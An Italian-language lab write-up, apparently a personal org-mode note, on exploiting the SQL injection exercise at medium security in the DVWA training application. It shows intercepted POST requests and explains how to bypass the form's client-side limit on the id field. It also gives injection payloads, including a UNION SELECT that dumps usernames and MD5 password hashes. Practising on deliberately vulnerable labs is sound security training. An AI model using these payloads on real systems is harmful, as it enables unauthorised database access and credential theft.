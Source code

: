 #+TITLE: DVWA - SQLi Medium
#+AUTHOR: Leonardo Tamiano

* Log
   [2022-07-23 Sat 18:10]

   La richiesta HTTP effettuata è la seguente
   
   #+begin_example
POST /dvwa/vulnerabilities/sqli/ HTTP/1.1
Host: evil.com
Content-Length: 18
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=medium; PHPSESSID=cha7rsj468ggoua24i1pp32k81
Connection: close

id=1&Submit=Submit   
   #+end_example

   Anche se il codice html prova a rinforzare il controllo sul valore
   dell'ID, facendo in modo che L'ID possa essere solamente un valore
   tra 1 e 5.
   
   #+begin_src html
<form action="#" method="POST">
  <p>
    User ID:
    <select name="id">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
      <option value="4">4</option>
      <option value="5">5</option>
    </select>
    <input type="submit" name="Submit" value="Submit">
  </p>
  
</form>   
   #+end_src

   Andando a manipolare direttamente la richiesta POST e cambiando il
   valore di ~id~ in un valore a nostra scelta, bypassiamo ogni
   controllo. Se mettiamo il payload

   #+begin_example
   id=1+1&Submit=Submit
   #+end_example

   otteniamo il seguente errore SQL

   #+begin_example
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' at line 1</pre>   
   #+end_example

   La presenza di questo errore è un possibile sintomo del fatto che
   l'input dell'utente è utilizzato direttamente e senza sanificazioni
   per costruire la query che viene poi eseguita sul database. Queste
   potrebbe portare ad una SQL injection.

   --------

   Il payload di interesse per ottenere una sqli è quindi il seguente
   
   #+begin_example
   1 OR 1=1 #
   #+end_example
   
   se poi siamo interessati a tutte le password, possiamo utilizzare
   quest'altro payload
   
   #+begin_example
   1 UNION SELECT first_name, password FROM users #
   #+end_example

   Che ci ritorna la seguente risposta

   #+begin_src html
<pre>ID: 1 UNION SELECT first_name, password FROM users # <br />First name: admin <br />Surname: admin</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: admin<br />Surname: 5f4dcc3b5aa765d61d8327deb882cf99</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Gordon<br />Surname: e99a18c428cb38d5f260853678922e03</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Hack<br />Surname: 8d3533d75ae2c3966d7e0d4fcc69216b</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Pablo<br />Surname: 0d107d09f5bbe40cade3de5c71e9e9b7</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Bob<br />Surname: 5f4dcc3b5aa765d61d8327deb882cf99</pre>
   #+end_src
   
      --------
      
      #+begin_example
POST /dvwa/vulnerabilities/sqli/ HTTP/1.1
Host: evil.com
Content-Length: 65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=medium; PHPSESSID=cha7rsj468ggoua24i1pp32k81
Connection: close

id=1 UNION SELECT first_name, password FROM users #&Submit=Submit      
      #+end_example
  
